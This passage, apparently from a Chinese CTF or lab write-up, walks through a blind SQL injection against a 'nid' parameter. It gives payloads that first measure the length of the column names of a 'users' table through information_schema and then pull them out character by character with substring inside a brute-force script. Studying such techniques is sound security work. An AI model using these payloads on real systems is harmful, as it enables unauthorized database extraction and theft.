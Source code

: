 ![](./pic-8/16.jpg)

获取到表名后，还需要获取列名，所以再次构造语句

```shell
/?nid=1 and if(length((select (group_concat(column_name)) from (information_schema.columns) where (table_name='users')))={i},1,0)--+
```

这里直接把语句复制到脚本中的`url`参数即可

![](./pic-8/17.jpg)

知道长度为115，修改获取数据的脚本中的`range(0,117)`和`url`为下面的即可

```shell
/?nid=1 and if(substring((select (group_concat(column_name)) from (information_schema.columns) where (table_name='users')),{i},1)='{combination}',1,0)--+
```
